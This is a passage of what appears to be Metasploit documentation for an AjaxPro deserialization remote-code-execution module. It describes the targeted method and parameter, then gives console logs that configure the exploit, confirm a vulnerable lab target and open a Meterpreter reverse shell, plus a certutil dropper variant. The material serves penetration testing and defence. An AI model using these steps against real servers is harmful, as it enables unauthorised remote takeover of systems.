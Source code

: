 > Default value is the namespace in which the default vulnerable method exists in
> versions before 21.10.30.1 is defined

### Method

The name of vulnerable method, which is set to `AddItem` by default.

> The method which accepts a parameter type `object` which is
> assignable from `ObjectDataProvider`

> Default value is the name of the default vulnerable method which exists in versions
> before 21.10.30.1

### Parameter

The name of vulnerable parameter which, is set to `item` by default.

> The exact parameter name

> Default value is the name of the parameter of the default vulnerable method
> which exists in versions before 21.10.30.1

## Scenarios

### Windows Command

```
msf6 > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. And confirmed target method exists.
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:51844) at 2023-10-28 01:27:00 +0800
```

### Windows Dropper

```
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set cmdstager::flavor certutil
cmdstager::flavor => certutil
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > exploit

```